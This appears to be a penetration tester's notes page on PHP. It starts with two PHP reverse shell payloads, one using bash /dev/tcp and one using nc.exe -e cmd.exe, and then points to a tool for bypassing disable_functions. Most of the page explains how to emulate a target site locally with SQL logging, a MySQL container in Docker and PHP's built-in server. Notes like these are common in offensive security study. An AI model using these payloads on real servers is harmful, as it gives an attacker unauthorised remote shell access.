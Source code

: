 # PHP

All things PHP

```php
# Reverse shell payload
<?php exec(\"/bin/bash -c 'bash -i >& /dev/tcp/192.168.45.221/81 0>&1'\");?>
<?php exec(\"C:\ProgramData\System\nc.exe 172.16.87.254 443 -e cmd.exe\");?>
```

## Capabilities

### dfunc-bypasser

If access to phpinfo, but command execution not working, check `disable_functions`, and run the file/url against [dfunc-bypasser](https://github.com/teambi0s/dfunc-bypasser)

```bash
# Check a phpinfo.php file
python2 dfunc-bypasser/dfunc-bypasser.py --file phpinfo.ph

# Check a phpinfo url
python2 dfunc-bypasser/dfunc-bypasser.py --url http://localhost/phpinfo.php
```

### Web Server

Emulate a web server given the source code via the following steps

Change database calls within the source code by adding the following function to `db_utils.php`:

```php
function print_sql_query($stmt, $params = []) {
	$query = $stmt->queryString;
	foreach ($params as $key => $value) {
		$query = str_replace(":$key", "'" . $value . "'", $query);
	}
	file_put_contents('debug.log', $query . "\n", FILE_APPEND);
}
```

Then comment out the database calls and add the print function below it:

```php
$stmt->execute($params);
```

Becomes

```php
// $stmt -> execute($params);
print_sql_query($stmt, $params);
```

This will allow the website to function without a database, and printing all database calls to a newly created file `debug.log`.

Continuously view `debug.log` with the command:

```bash
tail -f debug.log
```

Note: You can add the code:

```php
file_put_contents('debug.log', $any_variable . "\n", FILE_APPEND);
```

To any part of the code now to output additional debug information

### Database

To still simulate the database connection perform the following steps:

Install Docker

```bash
sudo apt-get install docker.io
```

Start Docker

```bash
sudo systemctl start docker
sudo systemctl enable docker
```

Verify installation

```bash
sudo docker --version
```

Run MySQL in Docker

```bash
sudo docker pull mysql
```

Start MySQL container

```bash
sudo docker run --name mysql-db -e MYSQL_ROOT_PASSWORD=myrootpassword -e MYSQL_DATABASE=clicker -e MYSQL_USER=clicker_db_user -e MYSQL_PASSWORD=clicker_db_password -p 3306:3306 -d mysql
```

Where `MYSQL_DATABASE`, `MYSQL_USER`, and `MYSQL_PASSWORD` are changed to their proper values based on the `db_utils.php` file.

Check container status

```bash
sudo docker ps
```

Once done analyzing, tear down with the commands:

```bash
sudo docker stop mysql-db
sudo docker rm mysql-db
```

### Execution

Now you can run the website with the following command:

```bash
php -S localhost:8000
```
